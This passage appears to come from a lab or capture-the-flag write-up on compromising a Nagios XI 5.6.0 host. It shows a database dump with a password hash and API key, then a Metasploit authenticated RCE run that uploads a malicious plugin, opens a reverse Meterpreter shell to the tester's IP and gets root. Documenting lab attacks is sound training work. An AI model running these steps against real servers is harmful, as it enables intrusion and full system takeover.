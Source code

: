 ```

mysql> select * from xi_users;   
+---------+-------------+--------------------------------------------------------------+----------------------+----------------+----------------------------------+---------+------------------------------------------------------------------+-------------+----------------+--------------+----------------------+------------+-------------+----------------+------------+--------------+
| user_id | username    | password                                                     | name                 | email          | backend_ticket                   | enabled | api_key                                                          | api_enabled | login_attempts | last_attempt | last_password_change | last_login | last_edited | last_edited_by | created_by | created_time |
+---------+-------------+--------------------------------------------------------------+----------------------+----------------+----------------------------------+---------+------------------------------------------------------------------+-------------+----------------+--------------+----------------------+------------+-------------+----------------+------------+--------------+
|       1 | nagiosadmin | $2a$10$c26dab3cb40383360d8e9uqHF.4fqxdeWeQechX1F7CjMl6j0rF2u | Nagios Administrator | root@localhost | HGsQ8GQHVNFsl52abBDHUXoQMGPKs7bp |       1 | BYFOBd32Oe6ToIJGKbDM9LL0mUp0ocbgrP42imj6EoZi7YXQpQSCBESdOidcNIre |           1 |              0 |            0 |                    0 | 1717186930 |           0 |              0 |          0 |            0 |
+---------+-------------+--------------------------------------------------------------+----------------------+----------------+----------------------------------+---------+------------------------------------------------------------------+-------------+----------------+--------------+----------------------+------------+-------------+----------------+------------+--------------+
1 row in set (0.00 sec)
```

Looking at these results I realized that we already have the nagiosadmin password (admin), and here in mysql the contact email for nagiosadmin is root@localhost. We can't just `su root` and enter admin, but maybe we could find another exploit that attacks the vulnerabilty as well as escalates the shell.

Looking around I find several different exploits attempting this, but unfortunately kept running into PHP issues and was unsuccesful. Before moving on I decided to give Metasploit a hail-Mary shot, and it worked! I was able to exploit the RCE vulnerabilty, and this specific Metasploit module also used a malicious check_ping plugin and escalated us to root:

```text
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.45.208:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.0
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3045348 bytes) to 192.168.209.136
[*] Meterpreter session 1 opened (192.168.45.208:4444 -> 192.168.209.136:43960) at 2024-05-31 16:09:38 -0500
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > shell
Process 23084 created.
Channel 1 created.

whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
python3 -c 'import pty;pty.spawn("/bin/bash")'
```